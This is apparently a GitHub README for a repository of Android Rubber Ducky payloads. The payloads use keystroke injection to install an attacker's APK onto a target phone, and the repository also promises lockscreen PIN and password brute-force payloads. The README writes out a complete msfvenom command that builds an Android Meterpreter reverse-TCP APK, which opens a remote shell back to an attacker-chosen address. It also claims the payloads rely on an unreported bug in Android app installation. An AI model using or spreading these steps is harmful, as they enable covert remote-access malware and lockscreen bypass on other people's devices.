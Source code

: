 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage.

The [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

The APK file must then be copied to the ducky along side the bin file you place there as well.

The APK payloads rely on a bug I found and will be reporting soon, within the APP install process

[SWIPE TO OPEN DEMO]

[![IMAGE ALT TEXT HERE](https://i.ibb.co/Yh2D6Vt/swipe.png)](https://youtu.be/Hon9YmdVehQ)

